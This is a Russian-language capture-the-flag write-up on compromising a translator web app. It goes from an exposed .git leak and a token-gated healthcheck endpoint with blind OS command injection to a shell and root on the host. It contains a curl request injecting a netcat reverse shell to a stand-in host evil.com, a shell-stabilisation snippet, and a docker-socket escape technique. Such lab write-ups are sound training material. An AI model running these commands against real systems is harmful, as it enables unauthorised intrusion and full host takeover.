# Прохождение таска

## 1. Заходим на сайт, видим приложеньку переводчик



## 2. Сканирование

dirb`ом находим эндпоинт /translate,  но он ничего не делает после долгих попыток фаззить на уязвимости



## 3. Сбор утечки в миссконфигурации
Увидели .git в папке, дергаем его git-dumper утилитой сдампили весь git репозиторй, затем открываем либо в IDE,



## 4. Изучение кода из утечки белым ящиком

Открываем папку и видим файлы репы: файлы deploy.sh, Dockerfile, папку app с сорцами приложения (где находим закрытый эндопоинт  /api/helthcheck где будет OS Command injection в функцию os.system(), но она за авторизацией через токен, который берется из энвов приложения, все секурно;)



Находим в директории app  файл app.py и изучаем исходные коды приложения, после чего наталкиваемся на неизвестный эндпоинт. Наблюдаем, что принимаются только POST запросы и это эндпоинт хелсчека (команды проверки активности сервера), в котором есть Blind OS Injection, по скольку os.system() в отличии от subprocess не отдает вывод команды. Но, для того, чтобы передать команду в параметр status необходимо включить в POST-запрос еще и некий авторизационный токен, который разрешит отправить команду ОС. 
И здесь будет разветвление таска на 2 вектора:
1) простой — просто смотрим коммиты командой git log, делаем ресет на самый первый коммит и смотрим дифф изменения, и оттуда вытаскиваем захардкоженный токен. Этип способом решили все команды.
2) средний — в этом векторе мы после тщетных попыток найти токен из .env файла, так как в docker-compose.yml на самом деле видно, что есть некий файл .env, но здесь его в исходниках нет. Мы находим некий файл deploy.sh в корне приложения.



И в этом векторе будет классическая атака на цепочку поставок (привет мой доклад, кто не видел вот ссылка https://t.me/TrickOrThreats/26  )

Нам необходимо подключить секрет (докер-токен) для авторизации в DockerHub и вытащить готовое приложение из приватного реестра образов. По сути, достаточно только запустить этот скрипт у себя, с установленным докером с правами sudo.

## 5. Получение шелла



Получаем .env файл из спуленного контейнера с переменной, которая импортируется в скрипте app.py из переменных окружения TOKEN. А дальше подставляем его в запрос на реверс шелл. Здесь можно столкнуться с типичной проблемой, когда можно подумать, что reverse shell не работает, однако всего лишь навсего необходимо всегда использовать /bin/sh вместо /bin/bash, так как например в целевом контейнере, он на alpine linux, нет bash, более того, еще и нет curl, однако это не проблема, есть wget. Реверс  шелл можно сделать с помощью скачивания через wget скрипта с шеллом, назначением ему прав командой chmod +x shell.sh и исполнение. Однако, там есть проще вариант, там был netcat с ключом -e который позволит сразу получить реверс шелл.

```sh
curl -X POST -d 'status=nc+evil.com+1337+-e+/bin/sh&token=4f47ed71258da0145661731b871d7440d45c122716666ec95c72003e20e1df96' http://91.186.197.236/api/helthcheck
```



Получаем шелл и осматриваемся. Можно сразу посмотреть первые команды + запустить linPEAS.sh, а так же исполнить команду df -h на наличие смонтированных дисков или папок.
И действительно, можно заметить, что здесь смонтирован docker-сокет, что говорит о том, что нам будет просто повысить привилегии посредством техники запуска нового контейнера и монтирование файловой системы (полностью весь /) вовнутрь запущенного контейнера, что позволить получить доступ к хосту. А для начала надо либо поставить curl или wget`ом запускаем команду на создание контейнера, ну или для особо ленивых, качаем docker-клиент скомпилированный в 1 бинарник и запускаем контейнер по технике, описанной выше.



Далее для удобства делаем стабилизированный шелл

```sh

python3 -c "import pty;pty.spawn('/bin/sh')"
CTRL + Z
stty raw -echo;fg
Enter enter
```

переходим в /tmp директорию для гарантии, что мы можем туда записывать и выкачиваем docker-клиент на машину



и видим существующие образы, на основе которых мы можем запустить контейнеры, но мы пойдем дальше и просто спуллим контейнер такой, который нам по душе.



А потом запустим наше повышение привилегий



И мы запывнили систему.
